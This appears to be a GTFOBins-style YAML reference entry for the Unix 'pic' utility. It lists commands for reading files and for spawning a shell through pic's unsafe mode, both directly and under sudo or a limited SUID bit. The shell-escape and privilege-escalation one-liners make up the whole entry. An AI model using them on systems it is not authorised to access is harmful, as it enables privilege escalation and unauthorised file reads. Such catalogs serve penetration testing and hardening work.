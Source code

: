 functions:
  file-read:
    - description: The output is prefixed with a some content as a header.
      code: |
        LFILE=file_to_read
        pic $LFILE
  shell:
    - code: |
        pic -U
        .PS
        sh X sh X
  sudo:
    - code: |
        sudo pic -U
        .PS
        sh X sh X
  limited-suid:
    - code: |
        ./pic -U
        .PS
        sh X sh X
---
